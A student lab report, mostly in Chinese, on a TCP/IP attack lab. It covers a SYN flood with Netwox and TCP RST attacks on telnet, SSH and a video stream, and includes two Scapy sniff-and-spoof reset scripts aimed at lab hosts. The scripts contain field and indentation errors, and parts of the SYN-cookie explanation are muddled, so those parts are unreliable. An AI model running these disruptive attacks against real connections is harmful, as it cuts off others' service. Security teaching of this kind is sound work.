# TCP/IP Attack Lab

## Task1：SYN Flooding Attack 

#### 实验

首先完成在host1 和 host2 之间的Telnet 连接。

- Host1：

  

  

在host2中用`netstat --na|grep TCP`检查当前的TCP相关端口的状态。发现端口23  in the unicom state. 

- Host2：

  

Set syn on host 2 to be off.

- Host 2:

  

在host1中断开Telnet， 然后在Host3用Netwox76去发起针对host2 的端口23的SYN attack。

- Host 3

  

攻击结果截图：

- Host 2

  

在Host2被SYN flooding时， Host1 不能连接上Host2

- Host1 ：

  

然后启动host2的SYN cookie机制

- Host2 

  

用Host3 进行攻击：

- Host3 ： 

  

这时由于Host2 打开了 SYN 机制，所以Host1 依然能连接到Host2



#### 分析

SYN泛洪是一种DOS攻击，攻击者在不尝试完成三向握手协议的情况下向受害者发送大量SYN数据包。他们用不断地请求来填满半开放连接TCP队列，导致服务器冻结。服务器正忙于使用其所有资源来接收，存储和发送SYN数据包的ACK。 SYN数据包来自各种IP。这些IP是无效的；他们无法完成三次握手。因此，服务器必须等待超时才能拒绝这些请求。接收到数据包后，队列的状态将同步接收。建立连接后，即会建立连接。当SYN cookie机制打开时，队列几乎已满时将清空。不需要队列，它们只是3次握手中的性能改进。这就是为什么尽管发生SYN泛洪攻击，对新Telnet连接的请求仍在进行的原因。

## Task2 TCP RST Attacks on telnet and ssh Connections 

### Using Netwox

#### TELNET

在host1和host2 建立Telnet连接，从host1发送到host2的信息可以被host3监听到。

- Host1:

  

- Host2:

  

- Host3:

  

  

用Host3通过Netwox78对Host1进行RST攻击。回到Host1，发现连接已经被其他host断开。通过Host2进行观察，发现端口已经不再被占用了。

- Host1

  

- Host 2

  

  

Host1 尝试去重连但是失败了。注意到来自host3的攻击并没有停止。重新来看host1，host1尝试去连接host2，我们注意到连接成功了一下，但是很快又断开了。Host3 能看到host1发送给host2的TCP RST包。

- Host1

  

- Host3 

  

  

#### SSH

首先在Host1建立SSH 连接



查看host2



使用Netwox78 从Host3处发起对host1的攻击。

在Host1处发现无法连接上host2

- host1：

  

Host3 可以看到Host1发送的TCP RST 包。

- Host3

  

### Using Scapy

#### TELNET

- Host3

  ```python
  from scapy.all import *
  def tcp_rst_telnet(pkt):
      ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
  	tcp = TCP(src=pkt[TCP].dport, dport=pkt[TCP].sport, flags=0x14, seq = pkt[TCP].ack, ack = pkt[TCP].seq+1)
      pkt = ip / tcp
      ls(pkt)
      send(pkt, verbose = 0)
      
  pkt = sniff(filter='host 192.168.174.139 and host 192.168.174.140 and port 23',prn = tcp_rst_telnet)
  ```

在host3运行上述代码对host1进行攻击。可以看到host1的现象如下：



#### SSH

```python
from scapy.all import *
def tcp_rst_telnet(pkt):
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(src=pkt[TCP].dport, dport=pkt[TCP].sport, flags=0x14, seq = pkt[TCP].ack, ack = pkt[TCP].seq+1)
    pkt = ip / tcp
    #ls(pkt)
    send(pkt, verbose = 0)
    
pkt = sniff(filter='host 192.168.174.139 and host 192.168.174.140 and port 22',prn = tcp_rst_telnet)
```

在host3运行上述代码对host1进行攻击。可以看到host1的现象如下：



### 分析

用TCP RST关闭TCP连接的方式：一方只需向另一方发送一个TCP RST包，立即断开连接。RS T也是TCP报头中的六个代码位之一。这种方法主要用于紧急情况，当没有时间执行FIN协议时。当检测到一些错误时，还会发送RST数据包。例如，在针对TCP服务器的SYN洪泛攻击中，如果欺骗的源IP地址确实属于正在运行的计算机，那么它将从服务器接收SYN + ACK包。但是，由于机器从来没有初始化过连接请求，它知道有什么地方出错了，因此，根据协议，它用一个RST包进行应答，基本上就是告诉服务器关闭半开的连接。因此，RST对于TCP协议非常重要。

## Task3 TCP RST Attacks on Video Streaming Applications 

刚好李子柒发视频了hhh，在Host2 随便开一个billbill看一波李子柒。


用task2的方法在host3发送一个RST包给host2。这导致了视频流被断开了，因此视频就无法被加载。


